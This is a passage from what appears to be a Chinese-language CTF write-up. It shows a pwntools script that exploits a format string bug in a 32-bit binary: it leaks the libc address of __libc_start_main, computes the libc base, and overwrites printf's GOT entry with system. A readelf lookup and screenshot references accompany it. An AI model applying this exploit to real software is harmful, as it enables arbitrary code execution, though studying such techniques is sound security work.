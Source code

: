 ## 找偏移地址
```py
#反汇编得到start函数在got.plt中的地址
libc_start_got = 0x804a01c
# 加载libc
libc = ELF('/lib32/libc.so.6')
libc_off = libc.symbols['__libc_start_main']
# 字符串格式化漏洞，偏移为5，泄露libc库中start函数的实际地址
r.sendline(p32(libc_start_got)+'#'+'%5$s'+'#')
# 格式化输出，方便得到地址
r.recvuntil('#')
# 基地址=实际地址-偏移地址
libc_base = u32(r.recvuntil('#')[:4])-libc_off
# 修改printf函数地址为system函数地址
printf_got= 0x804a00c #从elf文件获得
system_off = libc.symbols['system'] #libc中system偏移地址
system= libc_base + system_off #实际地址=基地址+偏移地址
# 利用字符串格式化进行任意地址写
r.sendline(fmtstr_payload(5,{printf_got:system}))
```

```sh
readelf -a /lib32/libc.so.6 |grep '__libc_start_main'
```
![readelf](2019-01-20-18-00-48.png)
看最后1.5个byte（32位elf）
![](2019-01-20-18-02-13.png)
实际elf中的start函数地址

